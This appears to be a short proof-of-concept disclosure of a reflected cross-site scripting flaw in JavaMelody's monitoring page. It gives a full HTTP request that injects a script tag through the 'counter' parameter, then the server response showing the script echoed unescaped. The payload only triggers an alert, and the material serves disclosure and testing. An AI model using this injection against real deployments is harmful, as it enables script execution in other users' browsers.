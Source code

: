 # JavaMelody 1.60.0 vulnerability Cross-Site Scripting
# This vulnerability maybe affected version <= 1.72.0

Request:
--------------------------------------------------------------------------------
GET /monitoring?action=clear_counter&counter=<script>alert(1)</script> HTTP/1.1
Host: victim
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
--------------------------------------------------------------------------------


Response:
--------------------------------------------------------------------------------
HTTP/1.0 200 OK
Date: Wed, 13 Jun 2018 09:52:54 GMT
Server:
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Vary: Accept-Encoding
Content-Type: text/html;charset=UTF-8
Connection: close

---
---

<script type='text/javascript'>
alert("Statistics <script>alert(1)</script> cleared.");
if (location.href.indexOf('?') != -1) {
location.href = location.href.substring(0, location.href.indexOf('?')) + '#<script>alert(1)</script>';} else {
location.href = '#<script>alert(1)</script>';}
</script>
--------------------------------------------------------------------------------
